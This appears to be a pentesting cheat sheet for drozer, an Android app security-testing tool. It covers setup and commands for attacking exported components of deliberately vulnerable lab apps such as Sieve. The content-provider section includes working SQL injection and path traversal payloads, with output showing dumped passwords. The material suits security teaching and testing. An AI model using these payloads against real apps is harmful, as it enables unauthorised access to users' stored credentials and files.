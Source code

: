 ```yaml
---
Description: drozer allows you to search for security vulnerabilities in apps and devices by assuming the role of an app and interacting with the Dalvik VM, other apps' IPC endpoints and the underlying OS.
URL: https://github.com/FSecureLABS/drozer
---
```


>[!warning]
>Drozer is no longer supported. In order to install it use the apposite Docker container: [https://hub.docker.com/r/fsecurelabs/drozer](https://hub.docker.com/r/fsecurelabs/drozer)

Drozer works in a traditionally distributed system with three components:

- **Agent APK:** A simple APK file that can be installed on the device or emulator that is used for testing.
- **Drozer console:** A command-line interface that allows us to interact with the emulator or the device through the agent.
- **Drozer Server:** The server uses the drozer protocol for communication. It provides the bridge between the agents and console and also provides route sessions between them.

---

# Configuring the environment

## Install the agent

Download the agent from [here](https://github.com/FSecureLABS/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk):

```bash
$ adb install drozer-agent-2.x.x.apk
```

## Start a session

You should now have the drozer Console installed on your PC, and the Agent running on your test device. Now, you need to connect the two and you’re ready to start exploring.

>[!warning]
>If using the Android emulator, you need to set up a suitable port forward so that your PC can connect to a TCP socket opened by the Agent inside the emulator, or on the device. By default, drozer uses port 31415

```bash
$ adb forward tcp:31415 tcp:31415
```

## Connect to the Agent

```bash
$ drozer console connect
$ drozer console connect --server 192.168.0.10 # when using a real device
```

# Command for APK analysis and tests

## List all installed packages

```bash
dz> run app.package.list
dz> run app.package.list -f sieve # filter for "sieve" string
com.mwr.example.sieve
```

## Analyze application general information and Manifest

```bash

dz> run app.package.manifest jakhar.aseem.diva # dump manifest
dz> run app.package.info -a com.mwr.example.sieve # dump general info
Package: com.mwr.example.sieve
Process Name: com.mwr.example.sieve
Version: 1.0
Data Directory: /data/data/com.mwr.example.sieve
APK Path: /data/app/com.mwr.example.sieve-2.apk
UID: 10056
GID: [1028, 1015, 3003]
Shared Libraries: null
Shared User ID: null
Uses Permissions:
 - android.permission.READ_EXTERNAL_STORAGE
 - android.permission.WRITE_EXTERNAL_STORAGE
 - android.permission.INTERNET
Defines Permissions:
 - com.mwr.example.sieve.READ_KEYS
 - com.mwr.example.sieve.WRITE_KEYS
```

## Analyze backup-able or debug-able applications

```bash
dz> run app.package.debuggable
dz> run app.package.backup
```

## Analyze attack surface

```bash
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
 3 activities exported
 0 broadcast receivers exported
 2 content providers exported
 2 services exported
 is debuggable
```

## Attacking activities

```bash
dz> run app.activity.info -a <package> # list exported activities
Package: com.mwr.example.sieve
 com.mwr.example.sieve.FileSelectActivity
 com.mwr.example.sieve.MainLoginActivity
 com.mwr.example.sieve.PWList
dz> run app.activity.start --component <package> <activity> # start an activity
```

## Attacking services

```bash
dz> run app.service.info -a <package> # list exported services
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null

# Interact with services using
app.service.send            Send a Message to a service, and display the reply  
app.service.start           Start Service                                       
app.service.stop            Stop Service

dz> run app.service.start –-action <nameoftheservice> –component <nameofthepackage> <nameoftheservice>
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN 1337 --bundle-as-obj
```

## Attacking broadcast receivers

```bash
dz> run app.broadcast.info -a <package> # list exported broadcast receivers
#Check one negative
Package: jakhar.aseem.diva
  No matching receivers.

# Check one positive
Package: com.google.android.youtube
  com.google.android.libraries.youtube.player.PlayerUiModule$LegacyMediaButtonIntentReceiver
    Permission: null
  com.google.android.apps.youtube.app.common.notification.GcmBroadcastReceiver
    Permission: com.google.android.c2dm.permission.SEND
  com.google.android.apps.youtube.app.PackageReplacedReceiver
    Permission: null
  com.google.android.libraries.youtube.account.AccountsChangedReceiver
    Permission: null
  com.google.android.apps.youtube.app.application.system.LocaleUpdatedReceiver
    Permission: null

# Interact with receivers using
app.broadcast.info          Get information about broadcast receivers           
app.broadcast.send          Send broadcast using an intent                      
app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents

dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers \
 SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
```

## Attacking content providers

```bash
dz> run app.provider.info -a <package> # list exported content providers
  Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.DBContentProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
  Path Permissions:
  Path: /Keys
  Type: PATTERN_LITERAL
  Read Permission: com.mwr.example.sieve.READ_KEYS
  Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.FileBackupProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False

dz> run scanner.provider.finduris -a <package> # guess and try several URIs
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
... 
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys 
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical # access the content provider
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com

# SQL Injection
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (\')

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--" 
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... | 
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |

# Accessing Files and Path Traversal
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts 
127.0.0.1            localhost

dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/../../../../../../../../etc/hosts 
127.0.0.1            localhost

dz> run scanner.provider.traversal -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

# External Resources

- [Exploiting Content Providers](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers)
- [Android penetration tools walkthrough series: Drozer](https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/#gref)
- [Android Pentesting CheatSheet](https://blog.dixitaditya.com/android-pentesting-cheatsheet?x-host=blog.dixitaditya.com)